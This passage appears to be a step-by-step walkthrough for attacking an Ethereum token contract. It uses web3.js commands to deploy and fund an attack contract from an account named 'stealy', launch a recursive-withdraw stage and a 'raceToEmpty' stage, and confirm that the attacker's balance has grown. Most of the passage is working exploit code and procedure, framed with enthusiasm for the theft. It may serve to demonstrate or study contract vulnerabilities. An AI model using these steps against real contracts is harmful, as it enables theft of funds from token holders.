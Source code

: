 
    var prepWithdrawsCompiled = web3.eth.compile.solidity(prepWithdrawsSource);
    var prepWithdrawsContract = web3.eth.contract(prepWithdrawsCompiled.PrepWithdraws.info.abiDefinition);


    var prepWithdraws = prepWithdrawsContract.new(twi.address, raceToEmpty.address, numTokens, numExtraWithdraws, { from: stealy, data: prepWithdrawsCompiled.PrepWithdraws.code, gas: 1000000, gasPrice: 1}, contractNotifier);

Wait for mining

    var ppwLog = prepWithdraws.Log().watch(function(err, result) {
      var a = result.args;
      if (err) { console.log(err); return; }
      console.log(a.msg, a.value);
    });


    // Give an initial amount to the attack contract. This value must be equal to
    // numTokens tokens worth of ether. The attack will not work without it!
    web3.eth.sendTransaction({from: stealy, to: prepWithdraws.address, value: numTokens*weiInSzabo, gas: 1000000, gasPrice: 1 });

    var checkState = function() {
      console.log("TWI total supply:", twi.totalSupply(), "balanceOf(prepWithdraws):", twi.balanceOf(prepWithdraws.address), "balanceOf(raceToEmpty):", twi.balanceOf(raceToEmpty.address));
      console.log("TWI value:", szaboOf(twi.address), "prepWithdraws value:", szaboOf(prepWithdraws.address), "stealy value:", szaboOf(stealy));
    };

Wait just a few seconds:

    // Check previous state
    checkState();

Check that `prepWithdraws value` is equal to `numTokens`
OMG, ready for the attack! Let's do it!

    prepWithdraws.start({ from: stealy, gas: 10000000, gasPrice: 1});

Wait until finished. You will see a bunch of log messages come up.

    checkState();

Interesting, huh? The TWI total supply should be equal to `1000 - (numExtraWithdraws - 1 )* numTokens`.
The TWI value should be `1000 + numTokens`. Now run the second part of the attack:

    raceToEmpty.start({ from: stealy, gas: 10000000, gasPrice: 1});

Wait until finished. Now check final balances

    checkState();

If all was successful then "stealy value" should be greater than before by
`(numTokens + 1) * numExtraWithdraws`

# Oddities
